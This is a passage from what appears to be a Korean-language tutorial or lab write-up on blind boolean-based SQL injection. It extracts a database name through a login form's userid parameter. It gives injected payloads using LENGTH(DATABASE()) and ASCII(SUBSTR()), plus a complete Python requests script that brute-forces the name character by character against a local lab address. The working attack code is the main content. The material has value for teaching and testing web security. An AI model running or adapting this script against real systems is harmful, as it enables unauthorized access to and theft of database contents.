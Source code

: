 결과는 다음과 같다.

	USER : root@localhost

## **데이터베이스 이름 확인**

참과 거짓의 결과 정보를 이용하여 데이터베이스의 이름을 획득해보자.

다음과 같이 DBMS 계정의 문자열 길이를 확인할 것이고, URL 인코딩을 시키기 위해 requests.utils.quote를 사용한다.

```py
QUERY       = requests.utils.quote(f'test\' AND LENGTH(DATABASE())={i}#')
```

쿼리의 결과가 참일 경우 데이터베이스의 이름의 문자열 길이를 알 수 있다.

```py
REQUEST     = requests.get(url=URL)
if REQUEST.text == 'Welcome test':
	RESULT_LENGTH = i
	break
```

데이터베이스의 이름을 확인하기 위해 SUBSTR로 한글자씩 맞춰나갈 것이며, 대소문자를 구분하기 위해 ASCII함수를 사용하자.

```py
QUERY       = requests.utils.quote(f'test\' AND ASCII(SUBSTR(DATABASE(),{i+1},1))={ord(s)}#')
```

마찬가지로 쿼리의 결과가 참일 경우 데이터베이스의 이름의 문자열 일부를 알 수 있다.

다음의 Full Code로 데이터베이스의 이름을 확인해보자.

```py
import requests
import string

TARGET          = 'http://192.168.0.58/index.php'
RESULT          = ''
RESULT_LENGTH   = 0

for i in range(100):
    QUERY       = requests.utils.quote(f'test\' AND LENGTH(DATABASE())={i}#')
    URL         = TARGET + f'?userid={QUERY}&password=123'
    REQUEST     = requests.get(url=URL)
    if REQUEST.text == 'Welcome test':
        RESULT_LENGTH = i
        break
print(f'DATABASE LENGTH : {RESULT_LENGTH}')

for i in range(RESULT_LENGTH):
    for s in string.printable.strip():
        QUERY       = requests.utils.quote(f'test\' AND ASCII(SUBSTR(DATABASE(),{i+1},1))={ord(s)}#')
        URL         = TARGET + f'?userid={QUERY}&password=123'
        REQUEST     = requests.get(url=URL)
        if REQUEST.text == 'Welcome test': RESULT += s
print(f'DATABASE : {RESULT}')
```
